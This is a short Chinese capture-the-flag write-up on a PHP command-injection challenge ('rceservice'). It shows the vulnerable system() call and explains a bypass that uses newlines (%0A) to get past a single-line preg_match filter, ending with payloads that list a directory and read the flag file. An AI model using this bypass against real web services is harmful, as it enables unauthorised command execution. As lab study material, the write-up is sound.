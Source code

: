```php
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

>源码中可以看到putenv('PATH=/home/rceservice/jail')已经修改了环境变量，我们只能用绝对路径来调用系统命令

>cat命令在/bin中保存

因为可以preg_match只会去匹配第一行，所以这里可以用多行进行绕过

`{%0A"cmd":"ls /home/rceservice/"%0A}`


![在这里插入图片描述](https://img-blog.csdnimg.cn/0200cced3ed54ec3b0386d1df5f0b8f5.png)
`{%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`
